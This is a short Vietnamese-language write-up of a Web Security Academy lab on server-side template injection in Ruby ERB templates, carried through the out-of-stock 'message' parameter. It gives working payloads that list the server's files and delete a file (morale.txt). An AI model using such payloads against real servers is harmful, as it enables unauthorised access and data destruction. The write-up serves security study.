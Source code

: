 ## Các bước khai thác  
1. Read  
  - Template syntax  
  - Security documentation  
  - Documented exploits  
2. Explore the environment  
3. Create a custom attack  

## Overview  
Kiểm tra các input đầu vào, sử dụng các statement đơn giản để kiểm tra `<%= 7*7 %>`. Bài lab này bị lỗi tại đường link thông báo sản phẩm hết hàng
`web-security-academy.net/?message=Unfortunately this product is out of stock`.   

![image](https://user-images.githubusercontent.com/22276823/126865885-096788ac-bde2-4c14-bdea-959f119e705d.png)  

Sau khi đã xác định được lỗi, ta có thể dùng các modulecủa ruby để khai thác thông tin.  
`<%=+Dir.entries(".")+%>` liệt kê các file trong thư mục hiện tại    

![image](https://user-images.githubusercontent.com/22276823/126865915-e5c86b50-30ce-4912-9ef7-025100621293.png)  
  

`<%=+File.delete("morale.txt")+%>` Xóa file  
![image](https://user-images.githubusercontent.com/22276823/126865973-948a7cc8-cfb7-4dff-a1fe-36a7dd5d2cae.png)  



